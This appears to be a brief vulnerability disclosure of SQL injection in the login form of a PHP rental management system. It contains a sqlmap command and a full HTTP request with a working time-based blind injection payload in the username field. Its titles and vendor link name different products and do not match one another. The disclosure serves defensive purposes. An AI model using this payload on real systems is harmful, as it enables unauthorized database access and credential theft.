


# rental management system SQL injections
#Accounts Manager App SQL injections
#Description
The system  doesn't properly sanitise POST parameter, which result SQL injections.
#Vendor Homepage
[https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)

#Author
[lsi.webray.com.cn](https://github.com/lscjl/lsi.webray.com.cn) inc

1.The problem parameter is the username parameter at the login interface

2.SQLMap Validation Vulnerability Hazards

python sqlmap.py -r 1.txt

POST /rental\_0/rental/ajax.php?action=login HTTP/1.1

Host:127.0.0.1

Content-Length: 122

Accept: \*/\*

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 Edg/123.0.0.0

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.11.154

Referer: http://192.168.11.154/rental\_0/rental/login.php

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: PHPSESSID=sv4njs94vagt2kqaletdia48gs

Connection: close

username=mayuri.infospace@gmail.com' AND (SELECT 5800 FROM (SELECT(SLEEP(5)))DBob) AND 'VqER'='VqER&password=rootadmin1111